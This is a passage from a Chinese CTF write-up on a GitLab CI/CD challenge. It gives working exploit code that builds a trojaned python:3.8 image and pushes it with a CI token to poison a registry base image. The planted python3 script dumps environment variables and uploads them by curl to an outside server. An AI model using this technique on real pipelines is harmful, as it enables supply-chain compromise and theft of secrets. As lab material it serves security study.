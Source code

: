 
最后会build当前的dockerfile并构建容器，flag11是这个web容器中的环境变量。而nest-of-gold的dockerfile中拉取的镜像是gitlab仓库中的：

```plain
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```

因此利用awesome-app的pipeline执行我们注入的恶意代码，即将恶意的镜像推送到gitlab，从而污染了image，实现flag的盗取。

修改greet.py的内容，执行将获取flag的命令来替代镜像中的python3命令。官方wp里的不太对，官方的命令在执行`RUN pip3 install -r requirements.txt`的时候就会curl，但是这个时候flag还没有注入到环境中，而且

```plain
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/python3.bak
RUN mv /usr/local/bin/pip3 /usr/local/bin/pip3.bak
COPY pip3 /usr/local/bin/pip3
"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env > /tmp/flag.txt;
curl http://10.207.127.144:39502/ -F file=@/tmp/flag.txt
"""
PIP3 ="""#!/bin/bash
/usr/local/bin/pip3.bak install -r requirements.txt
mv /usr/local/bin/python3.bak /usr/local/bin/python3
"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    with open('pip3','w') as f:
        f.write(PIP3)
    # Grant our script execution permission
    run('chmod +x python3')
    run('chmod +x pip3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
```